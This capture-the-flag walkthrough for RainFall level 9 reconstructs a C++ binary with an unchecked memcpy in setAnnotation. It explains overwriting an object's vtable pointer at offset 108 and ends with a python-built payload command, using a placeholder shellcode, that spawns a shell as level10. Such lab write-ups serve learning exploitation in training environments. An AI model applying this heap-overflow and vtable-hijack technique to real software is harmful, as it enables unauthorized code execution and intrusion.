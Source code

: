 # RainFall Walkthrough — Level 9 → Level 10

## Step 1 — Program Structure

The binary is a **C++ program** using classes and vtables. Let’s reconstruct the logic of `main`:

```cpp
int main(int argc, char **argv) {
    if (argc < 2)
        _exit(1);

    N *a = new N(5);
    N *b = new N(6);

    a->setAnnotation(argv[1]);
    (b->vtable->operator_plus)(b, a);
}
```

Key points:

* `N` has a **vtable pointer** at offset `0x0`.
* `setAnnotation(argv[1])` copies input into an internal buffer with **no bounds check**.
* At the end, `b->operator+(a)` is called **via the vtable**.

👉 If we overwrite `b`’s vtable pointer, we control the function call.

---

## Step 2 — Vulnerable Function

```cpp
void N::setAnnotation(char *str) {
    size_t len = strlen(str);
    memcpy(this + 4, str, len);
}
```

* Writes user input into the buffer at offset `+4`.
* **No length check** → overflow into adjacent memory.
* Eventually, we can overwrite the **vtable pointer at offset 0x0**.

That’s the vulnerability.

---

## Step 3 — Virtual Call Mechanics

At the end of `main`, the code does:

```asm
mov eax, [esp+0x10]   ; eax = b
mov eax, [eax]        ; eax = b->vtable
mov edx, [eax]        ; edx = b->vtable[0]
call edx              ; calls operator+
```

Normally → calls `N::operator+`.
If we corrupt `b->vtable`, it will call **any address we control**.

---

## Step 4 — Exploit Strategy

1. Create object `a` and `b`.
2. Use `a->setAnnotation(argv[1])` to overflow into `b`.
3. Overwrite `b->vtable` with a pointer inside our buffer.
4. Place a fake vtable and shellcode there.
5. When `b->operator+(a)` is called → it jumps to our shellcode.

---

## Step 5 — Finding the Offset

Using a cyclic pattern, crash analysis showed:

```
eax = 0x41366441
```

This corresponds to **offset 108**.

So: after 108 bytes, we reach and overwrite the vtable pointer.

---

## Step 6 — Crafting the Payload

Memory layout we want:

```
[ fake vtable entry ] → shellcode address
[ shellcode ]         → execve("/bin/sh")
[ padding ]
[ overwrite vtable ]  → pointer to fake vtable
```

Example payload:

```python
python -c 'print "\x10\xa0\x04\x08" + SHELLCODE + "A"*76 + "\x0c\xa0\x04\x08"'
```

At runtime:

* `b->vtable = 0x804a00c` (points into our buffer).
* `b->vtable[0] = 0x804a010` (points at our shellcode).
* Program executes `call edx` → jumps into shellcode. ✅

---

## Step 7 — Why Use Shellcode

* Earlier levels relied on GOT overwrites.
* Here, vtable corruption is simpler.
* **NX is disabled**, so injected shellcode runs.
* `system()` isn’t directly available → shellcode is the clean solution.

---

## Step 8 — Memory Visualization

### Before Overflow

```
b->vtable → [0x08048848] → legit N::operator+()
```

### After Overflow

```
b->vtable → [0x0804a00c] → [0x0804a010] → SHELLCODE!
```

So the virtual function call ends up running our shellcode.

---

## Final Step — Success

Exploit command:

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + SHELLCODE + "A"*76 + "\x0c\xa0\x04\x08"')
```

This spawns a shell as **level10**.
